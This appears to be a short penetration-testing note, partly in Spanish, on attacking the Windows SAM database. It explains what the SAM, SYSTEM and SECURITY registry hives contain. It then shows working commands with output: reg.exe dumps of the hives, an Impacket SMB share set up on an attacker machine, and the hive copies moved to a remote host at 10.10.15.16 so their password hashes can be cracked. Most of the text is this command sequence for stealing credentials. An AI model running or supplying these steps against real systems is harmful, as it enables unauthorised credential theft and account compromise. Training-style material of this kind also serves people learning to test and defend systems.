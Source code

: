 # AttackingSAM

| Registry Hive   | Descripción                                                                                                                                                                                    |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contiene los hashes asociados a las contraseñas de cuentas locales. Necesitaremos los hashes para poder descifrarlos y obtener las contraseñas de las cuentas de usuario en texto sin formato. |
| `hklm\system`   | Contiene la clave de arranque del sistema, que se utiliza para cifrar la base de datos SAM. Necesitaremos la clave de arranque para descifrar la base de datos SAM.                            |
| `hklm\security` | Contiene credenciales almacenadas en caché para cuentas de dominio. Puede resultar beneficioso tener esto en un destino de Windows unido a un dominio.                                         |
## Using reg.exe save to Copy Registry Hives

```c
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

## Creating a Share with smbserver.py

```c
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

#### Moving Hive Copies to Share

```c
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```
